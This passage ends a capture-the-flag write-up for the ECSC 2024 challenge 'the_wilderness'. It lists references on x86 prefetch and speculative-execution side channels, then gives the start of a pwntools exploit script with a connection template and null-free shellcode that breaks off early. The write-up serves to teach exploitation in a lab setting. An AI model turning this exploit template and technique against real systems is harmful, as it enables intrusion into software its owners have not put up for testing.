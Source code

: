 I’ll leave here the sources that aided me during this journey, as well as the final exploit used for the challenge. Since no null bytes were allowed in the shellcode, I had to get creative with bit shifting, which is why the code might look a bit convoluted. 
### Sources
https://amateurs.team/writeups/AmateursCTF-2023/perfect-sandbox
https://www.felixcloutier.com/x86/vmaskmov
https://www.felixcloutier.com/x86/prefetchh
https://www.felixcloutier.com/x86/prefetchw
https://www.felixcloutier.com/x86/rdtsc
https://ieeexplore.ieee.org/document/9833692
https://pwn.college/software-exploitation/speculative-execution/

## Final exploit
```python
#!/usr/bin/env python3

from pwn import *
exe = ELF("./the_wilderness_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
context.binary = exe
DOCKER_PORT		= 1337
REMOTE_NC_CMD	= "nc thewilderness.challs.open.ecsc2024.it 38012"	# `nc <host> <port>`

from pwnlib.tubes.tube import tube
tube.s		= tube.send
tube.sa		= tube.sendafter
tube.sl		= tube.sendline
tube.sla	= tube.sendlineafter
tube.r		= tube.recv
tube.ru		= tube.recvuntil
tube.rl		= tube.recvline

ELF.binsh = lambda self: next(self.search(b"/bin/sh\0"))
vleak = lambda valname, val: log.info(f"{valname}: 0x{val:x}")
chunks = lambda data, step: [data[i:i+step] for i in range(0, len(data), step)]

GDB_SCRIPT = """
"""

def conn():
    if args.REMOTE:
        return remote(REMOTE_NC_CMD.split()[1], int(REMOTE_NC_CMD.split()[2]))
    if args.GDB:
        return gdb.debug([exe.path], env={'dio':'cane'},gdbscript=GDB_SCRIPT, aslr = False)
    if args.DOCKER:
        return remote("localhost", DOCKER_PORT)
    return process([exe.path])

def main():
    
    io = conn()

    payload = '''
    endbr64
    mov rsp,rax
    
    //mean time to access valid memory
    xor r11,r11
    xor rdi, rdi
```